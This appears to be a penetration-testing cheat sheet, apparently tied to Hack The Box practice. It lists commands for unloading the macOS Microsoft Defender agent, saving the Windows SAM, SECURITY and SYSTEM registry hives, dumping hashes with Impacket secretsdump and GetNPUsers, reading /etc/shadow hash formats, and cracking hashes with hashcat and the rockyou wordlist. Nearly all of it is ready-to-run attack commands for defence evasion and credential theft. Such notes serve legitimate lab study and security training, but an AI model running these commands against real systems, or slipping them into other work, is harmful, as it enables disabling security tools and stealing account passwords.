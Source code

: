 
## Antivirus Evasion

### MacOS

#### Killing Microsoft Defender
```bash
launchctl unload /Library/LaunchAgents/com.microsoft.wdav.tray.plist
```


## Password Cracking

### Loot Windows Registry
```
C:\> reg.exe save hklm\sam c:\windows\temp\sam.save
C:\> reg.exe save hklm\security c:\windows\temp\security.save
C:\> reg.exe save hklm\system c:\windows\temp\system.save
```
### Impacket Secrets Dump
To dump the secrets/hashes from the files saved above `impacket-secretsdump -sam sam.save -security security.save -system system.save LOCAL > SECRETS.DUMP && cat SECRETS.DUMP`. 

### Impacket GetUserSPNs  
To dump the TGT hash of a domain user that has UF_DONT_REQUIRE_PREAUTH set: `impacket-GetNPUsers -no-pass -dc-ip forest.htb htb/svc-alfresco`.  


### /etc/shadow
Hash algorithm cheat sheet `bob:$1$Rrhb4lzg$Ee8/JYZjv.NimwyrSEL6R/:16903:0:99999:7:::`

* $1$ is MD5 (md5crypt) 
* $2a$ is Blowfish
* $2y$ is Blowfish
* $5$ is SHA-256
* $6$ is SHA-512

The salt is `Rrhb4lzg`

The hash is `Ee8/JYZjv.NimwyrSEL6R/`

### Crack via hashcat 

#### /etc/shadow  
1. Create hashfile `1$Rrhb4lzg$Ee8/JYZjv.NimwyrSEL6R/` as bob.hash
2. Examples
  * `hashcat -m 500 -a 0 bob.hash /usr/share/wordlists/rockyou.txt --force` for $1$
  * `hashcat -m 1800 -a 0 bob.hash /usr/share/wordlists/rockyou.txt --force` for $6$

#### Windows SAM  
1. Create hashfile `Administrator:500:aad3b435b51404eeaad3b435b51404ee:3fee04b01f59a1001a366a7681e95699:::`.
2. Crack `hashcat -m 1000 -a 0 admin.hash ~/rockyou.txt --force`.
